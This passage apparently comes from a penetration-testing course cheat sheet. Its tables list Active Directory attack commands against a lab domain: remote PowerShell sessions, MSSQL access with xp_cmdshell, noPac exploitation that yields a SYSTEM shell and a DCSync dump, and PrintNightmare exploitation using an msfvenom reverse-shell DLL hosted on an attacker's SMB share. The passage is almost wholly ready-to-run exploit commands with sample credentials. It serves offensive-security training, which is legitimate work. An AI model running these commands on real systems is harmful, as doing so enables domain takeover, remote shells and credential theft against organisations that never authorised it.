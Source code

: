 | `Enter-PSSession -ComputerName ACADEMY-EA-DB01 -Credential $cred` | Uses the PowerShell cmd-let `Enter-PSSession` to establish a PowerShell session with a target over the network (`-ComputerName ACADEMY-EA-DB01`) from a Windows-based host. Authenticates using credentials made in the 2 commands shown prior (`$cred` & `$password`). |
| `evil-winrm -i 10.129.201.234 -u forend`                     | Used to establish a PowerShell session with a Windows target from a Linux-based host using `WinRM`. |
| `Import-Module .\PowerUpSQL.ps1`                             | Used to import the `PowerUpSQL` tool.                        |
| `Get-SQLInstanceDomain`                                      | PowerUpSQL tool used to enumerate SQL server instances from a Windows-based host. |
| `Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'` | PowerUpSQL tool used to connect to connect to a SQL server and query the version (`-query 'Select @@version'`) from a Windows-based host. |
| `mssqlclient.py`                                             | Impacket tool used to display the functionality and options provided with `mssqlclient.py` from a Linux-based host. |
| `mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth` | Impacket tool used to connect to a MSSQL server from a Linux-based host. |
| `SQL> help`                                                  | Used to display mssqlclient.py options once connected to a MSSQL server. |
| `SQL> enable_xp_cmdshell`                                   | Used to enable `xp_cmdshell stored procedure` that allows for executing OS commands via the database from a Linux-based host. |
| `xp_cmdshell whoami /priv`                                   | Used to enumerate rights on a system using `xp_cmdshell`.    |



# NoPac

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `sudo git clone https://github.com/Ridter/noPac.git`         | Used to clone a `noPac` exploit using git. Performed from a Linux-based host. |
| `sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap` | Runs `scanner.py` to check if a target system is vulnerable to `noPac`/`Sam_The_Admin` from a Linux-based host. |
| `sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap` | Used to exploit the `noPac`/`Sam_The_Admin`  vulnerability and gain a SYSTEM shell (`-shell`). Performed from a Linux-based host. |
| `sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator` | Used to exploit the `noPac`/`Sam_The_Admin`  vulnerability and perform a `DCSync` attack against the built-in Administrator account on a Domain Controller from a Linux-based host. |



# PrintNightmare

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `git clone https://github.com/cube0x0/CVE-2021-1675.git`     | Used to clone a PrintNightmare exploit  using git from a Linux-based host. |
| `pip3 uninstall impacket git clone https://github.com/cube0x0/impacket cd impacket python3 ./setup.py install` | Used to ensure the exploit author's (`cube0x0`) version of Impacket is installed. This also uninstalls any previous Impacket version on a Linux-based host. |
| `rpcdump.py @172.16.5.5 \| egrep 'MS-RPRN\|MS-PAR'`            | Used to check if a Windows target has `MS-PAR` & `MSRPRN` exposed from a Linux-based host. |
| `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.129.202.111 LPORT=8080 -f dll > backupscript.dll` | Used to generate a DLL payload to be used by the exploit to gain a shell session. Performed from a Windows-based host. |
| `sudo smbserver.py -smb2support CompData /path/to/backupscript.dll` | Used to create an SMB server and host a shared folder (`CompData`) at the specified location on the local linux host. This can be used to host the DLL payload that the exploit will attempt to download to the host. Performed from a Linux-based host. |
| `sudo python3 CVE-2021-1675.py inlanefreight.local/<username>:<password>@172.16.5.5 '\\10.129.202.111\CompData\backupscript.dll'` | Executes the exploit and specifies the location of the DLL payload. Performed from a Linux-based host. |



# PetitPotam
